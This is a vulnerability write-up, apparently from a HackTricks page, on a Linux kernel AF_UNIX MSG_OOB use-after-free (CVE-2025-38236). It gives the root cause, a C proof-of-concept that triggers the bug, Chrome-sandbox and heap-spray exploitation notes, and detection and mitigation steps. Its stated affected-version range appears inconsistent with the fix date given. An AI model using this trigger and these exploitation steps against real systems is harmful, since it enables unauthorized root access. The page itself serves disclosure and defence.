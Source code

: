 # Linux Kernel AF_UNIX MSG_OOB Use-After-Free Privilege Escalation (CVE-2025-38236)

{{#include ../../banners/hacktricks-training.md}}

## Summary
A logic error introduced in Linux kernel 6.9 (commit `5e8078f…`, “spurious-EOF fix”) left a dangling pointer in the `AF_UNIX` out-of-band (OOB) message handling path. When an attacker alternates normal `recv()` calls with `recv(..., MSG_OOB)` on a UNIX socket pair they can trigger a *use-after-free* on a previously freed `struct sk_buff`.  The flaw (CVE-2025-38236) lets an unprivileged local process—​even inside restrictive sandboxes such as Chrome’s renderer—to corrupt kernel memory and obtain root privileges.

The bug was fixed in commit `32ca245464e1` (2025-07-31).  All kernels **≥ 6.9 and < 6.9.3** as well as mainline between 2024-07-16 and the fixing commit are affected.

## Background: AF_UNIX OOB (MSG_OOB)
1. Since Linux 5.15 `AF_UNIX` supports a single 1-byte out-of-band message per stream.
2. The byte is queued in `u->oob_skb`; normal data is queued in `sk_receive_queue`.
3. `recv(..., MSG_OOB)` is handled by `unix_stream_recv_urg()` which:
   • copies the byte to userspace
   • advances a *consumed* counter stored in `skb->cb[48]`
   • clears `u->oob_skb` when the SKB is empty
4. `manage_oob()` runs for every normal `recv()` to keep `oob_skb` in sync.

`unix_skb_len(skb)` returns `skb->len – consumed`, letting the kernel treat partially-read SKBs as empty.

## Root Cause
The 2024 “spurious EOF” refactor changed `manage_oob()` so that it **dropped zero-length SKBs before checking whether the SKB was also `u->oob_skb`**:
```c
/* buggy pseudo-diff */
if (!unix_skb_len(skb)) {
    __skb_unlink(skb, &sk->sk_receive_queue);
    skb = skb_peek(&sk->sk_receive_queue);
}
if (skb == READ_ONCE(u->oob_skb))
    u->oob_skb = NULL;          /* never executed for 0-len path */
```
Consequently, when the first branch removed the SKB, `u->oob_skb` kept pointing to freed memory.  A later `recv(..., MSG_OOB)` passed the dangling pointer to `unix_stream_recv_urg()`, creating a powerful UAF primitive in soft-IRQ context.

## Proof-of-Concept
```c
char dummy;
int s[2];
socketpair(AF_UNIX, SOCK_STREAM, 0, s);

/* 1-byte OOB, read it, repeat ×2 – u->oob_skb now freed */
send(s[1], "A", 1, MSG_OOB);
recv(s[0], &dummy, 1, MSG_OOB);

send(s[1], "A", 1, MSG_OOB);
recv(s[0], &dummy, 1, MSG_OOB);

/* third OOB, then normal recv() – triggers zero-len path */
send(s[1], "A", 1, MSG_OOB);
recv(s[0], &dummy, 1, 0);

/* MSG_OOB uses dangling sk_buff → UAF */
recv(s[0], &dummy, 1, MSG_OOB);
```
A full LPE exploit that leverages heap re-allocation timings is available in Project Zero attachment *67577205*.

## Exploitation Notes
• **Renderer-to-kernel in Chrome**: Chrome’s Linux sandbox whitelists the `send()/recv()` syscalls without filtering the `MSG_OOB` flag, providing a viable attack surface from JavaScript → JIT → native shell-code.

• **Heap shaping**: Because `struct sk_buff` objects are freed via `kfree_rcu()`, attackers get a reliable reclaim window before dereference.  Horn’s exploit sprays `kmalloc-64` caches with `timerfd_ctx` objects to control the freed memory.

• **Privesc primitives**: Overwriting the `timerfd_ctx::tint` pointer to a user-mapped address and waking the timer wins RIP control, converting the UAF into code execution.

## Detection & Mitigation
1. **Kernel version**: If `uname -r` ≥ 6.9 and build date < 2025-08-01 you are likely vulnerable.
2. **Exploit noise**: Repeated
   `kernel: BUG: KASAN: use-after-free in unix_stream_recv_urg`
   entries may appear in dmesg when KASAN is enabled.
3. **Temporary hardening**:
   • Block `MSG_OOB` with seccomp or LSMs.
   • Disable `AF_UNIX` in container namespaces if possible.
4. **Patch**: Apply commit `32ca245464e1` or any stable tree containing `CVE-2025-38236` back-port.

## References
- [Project Zero – From Chrome renderer code exec to kernel with MSG_OOB](https://googleprojectzero.blogspot.com/2025/08/from-chrome-renderer-code-exec-to-kernel.html)
- [Fix commit 32ca245464e1](https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=32ca245464e1479bfea8592b9db227fdc1641705)
- [Project Zero tracker entry 423023990 attachment 67577205](https://project-zero.issues.chromium.org/issues/423023990#attachment67577205)

{{#include ../../banners/hacktricks-training.md}}
